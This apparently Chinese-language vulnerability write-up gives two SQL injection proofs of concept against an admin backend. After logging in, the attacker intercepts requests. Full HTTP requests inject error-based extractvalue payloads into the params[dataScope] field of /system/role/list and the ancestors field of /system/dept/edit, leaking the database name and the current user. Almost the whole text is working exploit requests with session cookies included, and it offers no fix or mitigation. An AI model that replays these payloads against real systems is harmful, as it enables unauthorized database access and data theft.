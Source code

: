 进入后台后，拦截角色管理页面的请求包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGY7eLanJmhHzXQH8ibbwkgXFAcv0vV26yhAPXhENo7z1zJDwajbFvueg/640?wx_fmt=png&from=appmsg "")  
  
  
POC：  
```
POST /system/role/list HTTP/1.1
Host: 127.0.0.1
Content-Length: 179
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close
pageSize=&pageNum=&orderByColumn=&isAsc=&roleName=&roleKey=&status=&params[beginTime]=&params[endTime]=&params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGUFogFMsHXA1vGUKjJuAtiaiaZvQibsefxGNAnl7CpV2FgylZlKzDz5nQw/640?wx_fmt=png&from=appmsg "")  
  
  
第二个sql注入点：角色编辑接口  
  
POC:  
```
POST /system/dept/edit HTTP/1.1
Host: 127.0.0.1
Content-Length: 111
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close
DeptName=1&DeptId=100&ParentId=12&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat((select user()))));#
```  
  